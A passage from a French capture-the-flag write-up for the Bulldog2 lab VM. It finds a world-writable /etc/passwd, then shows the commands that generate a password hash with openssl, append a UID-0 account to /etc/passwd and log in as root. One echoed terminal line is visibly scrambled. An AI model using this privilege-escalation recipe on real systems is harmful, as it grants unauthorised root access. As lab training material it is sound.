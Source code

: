 ```console
--snip--

[+] World Writable Files
    -rwxrwxrwx 1 root root 1754 Aug  5 21:44 /etc/passwd
    --w--w--w- 1 root root 0 Aug 16 14:54 /var/lib/lxcfs/cgroup/memory/cgroup.event_control
    --w--w--w- 1 root root 0 Aug 16 14:54 /var/lib/lxcfs/cgroup/memory/user.slice/cgroup.event_control
    --w--w--w- 1 root root 0 Aug 16 14:54 /var/lib/lxcfs/cgroup/memory/system.slice/cgroup.event_control
   
--snip--
```

Magnifique, le fichier [```/etc/passwd```](https://fr.wikipedia.org/wiki/Passwd) est en lecture/écriture pour tout le monde ! Ordinairement, les mots de passe hashés de chaque compte Unix sont stockés dans le fichier [```/etc/shadow```](http://www.linux-france.org/article/sys/lame/html/x829.html), qui n'est accessible en lecture que par le compte root. Le fichier ```/etc/passwd```, quant à lui, contient la liste des utilisateurs et leurs informations respectives (numéro d'identification, groupe associé, répertoire personnel...). Cependant, si un hash est présent dans ```/etc/passwd``` pour un utilisateur donné, il sera tout de même pris en compte par le système !

Le but du jeu va alors consister à ajouter un compte dans ```/etc/passwd```, à lui affecter des valeurs (UID, GID...) équivalentes à root ainsi qu'un mot de passe, et à se connecter avec !

```console
node@bulldog2:/tmp$ openssl passwd -1 -salt blinils passblinils
openssl passwd -1 -salt blinils passblinils
$1$blinils$GMS/wYlG5LdvPsTaINMqH0

node@bulldog2:/tmp$ echo "blinils:\$1\$blinils\$GMS/wYlG5LdvPsTaINMqH0:0:0::/tmp/blinils:/bin/bash" >> /etc/passwd
/blinils:/bin/bash" >> /etc/passwdlG5LdvPsTaINMqH0:0:0::/tmp/

node@bulldog2:/tmp$ su - blinils
su - blinils
Password: passblinils

No directory, logging in with HOME=/
root@bulldog2:/# id
id
uid=0(root) gid=0(root) groups=0(root)

root@bulldog2:/# cat /root/flag.txt
cat /root/flag.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

I'm already working on another more challenging VM. Follow me for updates.
```

Un grand merci à [Nick](https://frichetten.com/) pour cette série Bulldog, deux VM vraiment très chouettes à résoudre ! Vivement les prochaines !